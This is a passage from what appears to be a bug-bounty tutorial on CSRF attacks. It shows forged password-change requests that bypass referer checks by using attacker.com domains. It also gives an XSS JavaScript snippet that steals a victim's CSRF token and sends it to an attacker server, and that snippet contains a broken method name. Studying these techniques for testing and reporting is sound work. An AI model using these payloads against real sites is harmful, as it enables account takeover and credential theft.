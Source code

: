 In this case, you can bypass the referer check by placing the victim domain name in the referer URL as a subdomain. You can achieve this by
creating a subdomain named after the victim’s domain, and then hosting the malicious HTML on that subdomain. Your request would look like this:

```jsx
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
Referer: example.com.attacker.com
(POST request body)
new_password=abc123
```

You can also try placing the victim domain name in the referer URL as a pathname.

```jsx
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
Referer: attacker.com/example.com
(POST request body)
new_password=abc123
```

---

### Bypass CSRF Protection by Using XSS

XSS vulnerability will defeat CSRF protections, because XSS will allow attackers to steal the legitimate
CSRF token and then craft forged requests by using XMLHttpRequest. Often,
attackers will find XSS as the starting point to launch CSRFs to take over admin accounts.

For example,
this code snippet reads the CSRF token embedded on the victim’s page and sends it to the attacker’s server as a URL parameter named token. If you can
steal a user’s CSRF tokens, you can execute actions on their behalf by using those tokens to bypass CSRF protection on the site.

```jsx
var token = document.getElementsById('csrf-token')[0];
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://attacker_server_ip/?token="+token, true);
xhr.send(null);
```

---

# `Escalating the Attack`

> After you’ve found a CSRF vulnerability, don’t just report it right away! Here are a few ways you can escalate CSRFs into severe security issues to maximize the impact of your report
> 
